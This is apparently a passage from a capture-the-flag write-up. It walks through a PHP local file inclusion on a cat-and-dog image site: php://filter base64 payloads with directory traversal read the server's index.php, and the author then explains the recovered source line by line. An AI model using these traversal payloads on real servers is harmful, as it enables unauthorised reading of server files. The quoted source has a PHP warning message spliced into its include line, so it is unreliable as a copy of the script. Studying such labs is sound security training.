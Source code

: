 ```
http://<TargetIP>/index.php?page=php?view=php://filter/convert.base64-encode/resource=cat/../dog
```
```html 
  <img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```
I was surprised to find that instead of an image file path, a script was returned from what assumed was the `dog.php`. A similar type of response was found when testing cat. I decided to go with this and try and find a way to return the main script from `index.php` as it will be the best chance I have to gain a foothold into the server.
```
http://<TargetIP>/index.php?page=php?view=php://filter/convert.base64-encode/resource=cat/../dog/../../../../var/www/html/index
```
```php
<?php
  function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;}
  $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
  if(isset($_GET['view'])) {
    if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
      echo 'Here you go!';
      Warning: passthru(): Cannot execute a blank command in /var/log/apacinclude $_GET['view'] . $ext;
    } else {
      echo 'Sorry, only dogs or cats are allowed.';
      }
    }
?>
```
I had successfully managed to extract the PHP script of the homepage. From here I started reading up on PHP functions and statements to try and reverse engineer the script.
Firstly, a function is run:
```php
containsStr($str, $substr) - Searches for string $substr in $str
```
If true, returns:
```php
strpos($str, $substr) - String position of $subtr in $str
```
Output is put against:
```php
!== false - Checks if output is not equal or identical to 'false'
```
After the function is run, a variable is defined:
```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php' - $ext is defined as URI which is set to '.php'
```
Next an IF statment is ran:
```php
if(isset($_GET['view'])) - Checks if 'view' is used in the URI?
```
If TRUE, the following IF statument is run:
```php
{if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) - Checks to see if 'dog' or 'cat' is used with the 'view' URI
```
If this statment is TRUE, the following is ran
```php
{echo 'Here you go!'; Warning: passthru(): Cannot execute a blank command in /var/log/apacinclude $_GET['view'] . $ext;} - Returns an output, which has been left blank due to way the script was found.
```
If `dog` or `cat` was not used with the `view` URI, the following is run.
```php    
else {echo 'Sorry, only dogs or cats are allowed.';}}
```